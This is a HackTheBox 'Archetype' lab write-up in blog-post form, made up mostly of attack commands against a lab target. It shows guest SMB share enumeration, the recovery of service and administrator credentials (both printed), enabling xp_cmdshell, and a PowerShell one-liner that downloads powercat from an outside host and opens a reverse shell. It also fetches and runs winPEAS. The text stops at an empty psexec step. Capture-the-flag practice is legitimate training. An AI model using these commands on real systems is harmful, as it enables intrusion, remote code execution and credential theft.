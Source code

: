 ```yaml
---
layout: post
title: HackTheBox Archetype
subtitle: StartingPoint Archetype Exam WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```



## Summary
![](assets/images/posts/2025-03-06-Archetype/c7aa0835353bb4a42ec1fb12fcdc3a18_MD5.jpeg)
## Target - 10.129.68.227
### Open Port
```bash
nmap -sC -sV -Pn -oN Archetype 10.129.68.227
```
![](assets/images/posts/2025-03-06-Archetype/1e4da9b4abb6d6341988fa1a18d32841_MD5.jpeg)
### SMB Enum (Guest Auth)
```bash
crackmapexec smb 10.129.68.227 -u 'guest' -p '' --shares
crackmapexec smb 10.129.68.227 -u 'guest' -p '' --spider backups --regex .

# ARCHETYPE\sql_svc : M3g4c0rp123
smbclient \\\\10.129.68.227\\backups -U 'guest' --password=''
get prod.dtsConfig
cat prod.dtsConfig
```

![](assets/images/posts/2025-03-06-Archetype/d16001211c17989921ca9d7924123219_MD5.jpeg)![](assets/images/posts/2025-03-06-Archetype/2b3979fe8f0430bac8990e09ff6483da_MD5.jpeg)

### mssql RCE
```bash
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.68.227 -windows-auth

# xp_cmdshell 활성화
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
# oneline reverse shell
EXEC xp_cmdshell 'powershell -c "IEX (New-Object System.Net.Webclient).DownloadString(\"http://10.10.14.11:8000/powercat.ps1\");powercat -c 10.10.14.11 -p 4444 -e powershell"';
```

![](assets/images/posts/2025-03-06-Archetype/9c5ab89e51a73bef43ca35e9513680a4_MD5.jpeg)![](assets/images/posts/2025-03-06-Archetype/ddd88b5c3111a3ccd4219434fe508f7a_MD5.jpeg)

### winPEAS
```powershell
iwr -uri http://10.10.14.11:8000/winPEASx64.exe -OutFile winPEAS.exe
.\winPEAS.exe

# history 열람 administrator : MEGACORP_4dm1n!!
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![](assets/images/posts/2025-03-06-Archetype/6c6a769b01b337f5043407c95d2f9261_MD5.jpeg)![](assets/images/posts/2025-03-06-Archetype/779e533c4fb09c41b3407c229dd160a4_MD5.jpeg)
![](assets/images/posts/2025-03-06-Archetype/9781a5273a3edd4de922675970ed39f5_MD5.jpeg)

### impacket-psexec
```bash
# runas의 경우 reverse shell이 non-interactive 여서 Password 입력 불가


```